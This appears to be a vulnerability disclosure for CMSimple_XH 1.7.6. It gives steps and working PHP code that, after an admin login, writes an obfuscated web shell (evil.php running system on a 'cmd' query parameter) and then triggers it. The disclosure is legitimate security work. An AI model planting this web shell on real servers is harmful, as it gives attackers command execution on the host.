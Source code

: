 # RCE at cmsimple-xh 1.7.6
Similarly to https://github.com/advisories/GHSA-56jv-hmch-qm6c , it is possible to upload a PHP payload to execute commands on the host. It requires being **Authenticated**.

Version: CMSimple_XH 1.7.6

## Steps to reproduce:
1. Login as Admin
2. Move to `/?file=content`
3. Add the following code into **Content file**:
```php
file_put_contents('evil.php', '');
$fileHandle = fopen('evil.php', 'a');
fwrite($fileHandle, '<');
fwrite($fileHandle, '?');
fwrite($fileHandle, 'p');
fwrite($fileHandle, 'h');
fwrite($fileHandle, 'p');
fwrite($fileHandle, ' ');
fwrite($fileHandle, 'system');
fwrite($fileHandle, '(');
fwrite($fileHandle, '$');
fwrite($fileHandle, '_GET[');
fwrite($fileHandle, '"cmd"]');
fwrite($fileHandle, ');');
fwrite($fileHandle, '?');
fwrite($fileHandle, '>');
fclose($fileHandle);
```
4. Save and refresh
5. Move to `/evil.php?cmd=id`

## Screenshots:

![1](1.png)
![2](2.png)
![3](3.png)

